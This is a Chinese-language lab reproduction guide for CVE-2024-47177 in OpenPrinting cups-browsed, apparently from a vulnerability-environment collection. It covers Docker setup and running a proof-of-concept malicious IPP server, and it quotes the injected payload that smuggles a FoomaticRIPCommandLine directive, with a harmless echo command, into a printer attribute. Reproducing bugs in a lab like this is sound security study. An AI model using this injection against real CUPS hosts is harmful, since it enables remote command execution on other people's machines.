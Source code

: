 # OpenPrinting Cups-Browsed PDD FoomaticRIPCommandLine 参数导致远程命令执行漏洞（CVE-2024-47177）

OpenPrinting CUPS（通用Unix打印系统）是为类Unix操作系统开发的开源打印系统。它允许计算机充当打印服务器，高效管理本地和网络打印机。Cups-Browsed是CUPS系统的一部分，是一个专门用于浏览网络上其他CUPS服务器共享的远程打印机的守护进程。它可以自动发现和配置网络打印机，让用户更容易访问和使用网络上共享的打印资源，无需手动设置。

在Cups-Browsed 2.0.1及之前的版本中，存在一个由PPD（PostScript打印机描述）文件中的`FoomaticRIPCommandLine`参数处理不当引起的问题。攻击者可以通过创建一个恶意的IPP（互联网打印协议）服务器来利用这个漏洞，向易受攻击的Cups-Browsed实例发送精心制作的打印机信息，然后在运行易受攻击的Cups-Browsed的系统上执行任意命令。

参考链接：

- <https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/>
- <https://github.com/OpenPrinting/cups-browsed/security/advisories/GHSA-rj88-6mr5-rcw8>

## 漏洞环境

执行如下命令启动一个2.4.7版本CUPS服务器和2.0.1版本Cups-Browsed服务器：

```
docker-compose up -d
```

环境启动后，可以通过`http://<your-ip>:631`访问CUPS的web界面。

## 漏洞复现

首先，下载[evil-ipp-server](https://github.com/vulhub/evil-ipp-server)项目并运行[poc.py](https://github.com/vulhub/evil-ipp-server/blob/master/poc.py):

```
python poc.py [evil-ipp-server-ip] [target-ip]
```

这个脚本会在`[evil-ipp-server-ip]`上启动一个恶意的IPP服务器，并向目标机器`[target-ip]`上的Cups-Browsed服务发送一个UDP数据包。

一旦Cups-Browsed接收到请求，它将尝试连接到恶意的IPP服务器并。IPP服务器会返回精心构造的`printer-privacy-policy-uri`属性，该属性中包含恶意payload，其结构如下：

```python
(
    SectionEnum.printer,
    b'printer-privacy-policy-uri',
    TagEnum.uri
): [b'https://www.google.com/"\n*FoomaticRIPCommandLine: "' +
    b'echo 1 > /tmp/I_AM_VULNERABLE' +
    b'"\n*cupsFilter2 : "application/pdf application/vnd.cups-postscript 0 foomatic-rip'],
```

然后，Cups-Browsed会在`/tmp/`目录下创建一个临时PPD文件，我们的payload会被注入到这个文件中。下图是相关的Cups-Browsed日志：

![](1.png)

此时，命令还未执行，因为我们需要至少一个打印任务来触发命令的执行。

打印任务可能来自于正常用户，也可以来自攻击者。如果TCP 631端口开发，我们可以使用浏览器访问，并找到刚才增加的恶意IPP打印机，并创建一个“打印测试页面”的打印任务。

![](2.png)

任务执行后，进入容器即可发现，`echo 1 > /tmp/I_AM_VULNERABLE`命令已经成功执行：

![](3.png)
